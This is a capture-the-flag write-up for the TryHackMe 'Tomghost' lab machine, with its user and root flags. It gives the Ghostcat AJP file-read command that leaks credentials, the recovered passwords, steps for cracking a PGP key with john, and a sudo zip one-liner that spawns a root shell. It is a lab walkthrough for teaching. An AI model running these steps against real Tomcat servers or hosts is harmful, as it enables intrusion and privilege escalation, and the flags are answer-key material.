 # TOMGHOST

## BASIC INFO
```
export IP=10.10.179.57
```


> - **Compromise this machine and obtain user.txt**
>> THM{GhostCat_1s_so_cr4sy}

> - **Escalate privileges and obtain root.txt**
>> THM{Z1P_1S_FAKE}

From the name and some google search we can pin point the vulnerabilit of this machine. It is Ghostcat. Using the [script](ajpShooter.py) we can obtain the first credentials. Run `./ajpShooter.py $IP:8080 8009 /WEB_INF/web.xml read` and the credentials should be just below.
```
skyfuck:8730281lkjlkjdqlksalks
```

ssh Into the machine with the credentials above. Then scp both file onto our host machine. Before cracking the hash with john we need to do `gpg2john tryhackme.asc > hash`.
```
tryhackme:alexandru
```

After cracking the hash we can use it to decrypt the pgp file. But first we need to import the secret key first. `gpg --import tryhackme.asc` then `gpg --decrypt credential.pgp`
```
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
```

Now ssh into the machine again using the new credential. The user.txt is just at his home directory.

Now for privilege escalation, it's the good'ol `sudo -l`. We can run zip as sudo without password.
```
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
```
And we're root. Navigate to /root/ toget root.txt